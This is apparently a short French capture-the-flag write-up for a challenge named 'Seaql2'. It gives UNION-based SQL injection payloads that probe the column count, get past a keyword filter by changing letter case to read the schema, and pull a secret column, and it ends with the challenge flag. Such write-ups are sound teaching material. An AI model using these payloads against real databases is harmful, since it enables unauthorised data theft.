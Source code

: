 # Seaql2

## Write-up

On essaye de trouver le flag dans la base de donnée.

On se rend compte que le template montre 3 colonnes avec :
`' union select 1, 'dummy title', 'random description'`

Ensuite, on voit qu'il y a un filtre, mais SQL n'est pas sensible à la case, donc on peut bypass le filtre en mettant `' union select 1, Sql, 'dummy description' from sql_Schema`

On voit qu'il y a une table nommée `hidden_secrets` avec une colonne `secret`, on peut donc faire:

`' union select 1, secret, 'bob' from Hidden_secrets -- `

## Flag

`flag-P1r4t3s_Ar3nt_Th3_0nly_0n3s_Wh0_L0v3_G0ld!`
